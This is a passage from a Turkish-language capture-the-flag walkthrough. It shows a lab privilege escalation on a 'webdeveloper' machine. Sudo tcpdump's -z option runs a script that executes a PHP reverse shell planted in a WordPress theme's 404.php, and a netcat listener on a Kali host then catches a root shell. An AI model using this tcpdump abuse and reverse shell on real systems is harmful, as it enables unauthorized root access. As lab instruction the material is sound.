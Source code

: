 ```sh
webdeveloper@webdeveloper:/usr/sbin$ chmod +x /home/webdeveloper/sonuc
```
```sh
root@kali:~# nc -lvp 1822
listening on [any] 1822 ...

```
Dinleme noktamızı açtıktan sonra artık  aşağıdaki kodu çalıştıralım. Burada neden php reverse shell kodunu kullandığımı merak edebiliyor olabilirsiniz nc ve bash ile deneme yaptığımda başarılı olamadım. Aklıma daha sonrasında php geldi.
```sh
webdeveloper@webdeveloper:/usr/sbin$ sudo tcpdump -w /dev/null  -z /home/webdeveloper/sonuc -Z root -i eth0  -G 5
dropped privs to root
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
PHP Notice:  Undefined variable: daemon in /var/www/html/wp-content/themes/twentysixteen/404.php on line 184
Successfully opened reverse shell to 192.168.171.136:1822
PHP Warning:  fsockopen(): unable to connect to 192.168.171.136:1822 (Connection refused) in /var/www/html/wp-content/themes/twentysixteen/404.php on line 100
PHP Notice:  Undefined variable: daemon in /var/www/html/wp-content/themes/twentysixteen/404.php on line 184
Connection refused (111)
PHP Warning:  fsockopen(): unable to connect to 192.168.171.136:1822 (Connection refused) in /var/www/html/wp-content/themes/twentysixteen/404.php on line 100
PHP Notice:  Undefined variable: daemon in /var/www/html/wp-content/themes/twentysixteen/404.php on line 184
Connection refused (111)
PHP Warning:  fsockopen(): unable to connect to 192.168.171.136:1822 (Connection refused) in /var/www/html/wp-content/themes/twentysixteen/404.php on line 100
PHP Notice:  Undefined variable: daemon in /var/www/html/wp-content/themes/twentysixteen/404.php on line 184
Connection refused (111)
```
Şimdi yazdığımız komutu biraz inceleyelim. `-Z` ile kullanıcı belirtiyoruz. Tabiki de root olması gerekmektedir. `-i` interface eth0 bu sizde farklı olabilir `ifconfig` komutu ile bunu kontrol edebilirsiniz. `-z` çalıştırılacak olan dosyamız içerisinde `php /var/www/html/wp-content/themes/twentysixteen/404.php` kodu var. `-w` ise ekran çıktılarının nereye yönlendirileceğini söylüyoruz. */dev/null* ile direkt olarak aslında çıktılar temizlemiş oluyoruz. Gömülü sistemler çalışan kişilerin linuxta çok aşina olduğu bir device'tır. Son olarak `-G` parametresi kodun ne kadar sıklıkla çalıştırılacağını saniye cinsinden belirtiyoruz. Bunu php reverse shell'in çalışması derlenmesi gibi aşamaları bitmesini beklemek için 5 saniye olarak verdim. Shell geldikten sonra tcpdump tarafında Connection refused(111) çıktısı 5sn'de bir belirecektir. Bunun sebebi artık hedef portun el sıkışmasından kaynaklanmaktadır. PHP Warning çıktısında da bu görülmektedir. Açıklamaları yaptıktan sonra shell kısmına geri dönelim. Evet reverse shell'imizi elde ettik!

```sh
root@kali:~# nc -lvp 1822
listening on [any] 1822 ...
192.168.171.140: inverse host lookup failed: Unknown host
connect to [192.168.171.136] from (UNKNOWN) [192.168.171.140] 53962
Linux webdeveloper 4.15.0-47-generic #50-Ubuntu SMP Wed Mar 13 10:44:52 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 15:19:59 up  1:35,  1 user,  load average: 0.14, 0.10, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
webdevel pts/0    192.168.171.136  13:46   13.00s  2.21s  0.08s sshd: webdeveloper [priv]
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```
